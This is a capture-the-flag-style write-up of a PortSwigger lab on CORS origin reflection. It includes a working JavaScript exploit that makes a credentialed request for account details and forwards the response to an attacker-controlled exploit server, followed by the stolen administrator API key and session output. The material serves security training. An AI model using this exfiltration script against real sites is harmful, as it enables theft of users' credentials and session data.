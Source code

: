 # CORS vulnerability with basic origin reflection

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack), you'll learn: CORS vulnerability with basic origin reflection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227053046.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227053056.png)

**In the Burp Suite's HTTP history, I found something interesting:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227054354.png)

When we're logged in, it'll also send a GET request to `/accountDetails`, and **the response header has `Access-Control-Allow-Credentials`**, which indicates that the web application supports CORS(Cross-Origin Resource Sharing).

**Let's send that request to Burp Repeter, and add a HTTP header called `Origin`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227054705.png)

Note that the origin is reflected in the `Access-Control-Allow-Origin` response header.

**Hmm... What if an attacker can send a GET request to `/accountDetails`, and retrieve sensitive information?**

**To do so, I'll write a HTML file to do that, host it on the exploit server, and deliver the exploit to the victim:**
```html
<html>
    <head>
        <title>CORS-1</title>
    </head>
    <body>
        <script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','https://0ab5004903f59d88c017e57d003e0078.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();

            function reqListener() {
              location='//exploit-0a28004803ec9dcac025e4430179005c.exploit-server.net/?data='+this.responseText;
            };
        </script>
    </body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227054917.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227055023.png)

**We successfully retrieved victim's data!**
```json
{
    "username": "administrator",
    "email": "",
    "apikey": "LzZwsDlAMoTuJAwINt8FJJipytW0Adbx",
    "sessions": [
        "xcu3ZpRXDah5K0V5r7TLbz5hMDLDiFGZ"
    ]
}
```

Let's submit the API key!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227055235.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227055254.png)

# What we've learned:

1. CORS vulnerability with basic origin reflection